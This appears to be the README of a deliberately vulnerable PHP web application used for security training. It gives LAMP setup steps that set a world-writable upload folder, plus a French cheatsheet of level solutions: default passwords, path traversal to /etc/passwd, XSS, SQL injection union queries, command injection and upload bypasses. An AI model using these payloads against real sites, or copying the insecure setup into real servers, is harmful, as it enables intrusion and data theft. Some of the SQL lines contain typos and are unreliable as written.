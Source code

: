 # Installation
Basic LAMP...

```
sudo apt install apache2 php libapache2-mod-php mysql-server php-mysql
```
move folder to /var/www/html

script.sql for database

```
sudo mkdir /var/www/html/upload/
sudo chmod -R 777 /var/www/html/upload => right in folder
```


# Cheatsheet
<details>
<summary> Click me</summary>

## Broken authentication
Level 1
admin:password

- weak password
- default password
- GET parameters


Level 2

alice:123456789

- error message


## Broken Access Control
?sessionid=120983


## LFI

?topic=../../../../../../etc/passwd
?topic=php://filter/convert.base64-encode/resource=secret.php

## XSS
Level 1
<script>alert('XSS')</script>

Level 2
<script>alert('XSS')</script>

Modifier le contenu du premier message : 
<script>document.getElementsByTagName("p").item(1).innerHTML="Modifié par un hacker"</script>

Level 3 
Uniquement pseudo

Level 4
<img src="x" onerror="alert('XSS')"/>


## SQLi
Level 1
' or 1=1; -- 
a

admin' and 1=1; -- 
Level 2
uniquement password 
' or 1=1; --


Level 3
' union select null; -- 
' union select 'a','b','c','d'; -- 
' UNION select null, table_name,null,null from information_schema.tables; -- 
' UNION select null, column_name,null,null from information_schema.comluns where table_name='sql1'; -- 
' union select null,username,password,null from table='sql1'; --


## Command injection
Level 1
google.fr; ls


Level 2
google.fr" && ls #

## PHP file upload
try to upload .php3, .php4, .php5, .phtml...

5 secrets : 


1 - fuzzing 
secret.php

robots.txt => /96bd94aa09f61018abeaf0cd7b7c6387.php

code source => 33a2838ab91f7f01a24da38cb55cae10.php

?topic=php://filter/convert.base64-encode/resource=secret.php

Extract .git 
git restore .

</details>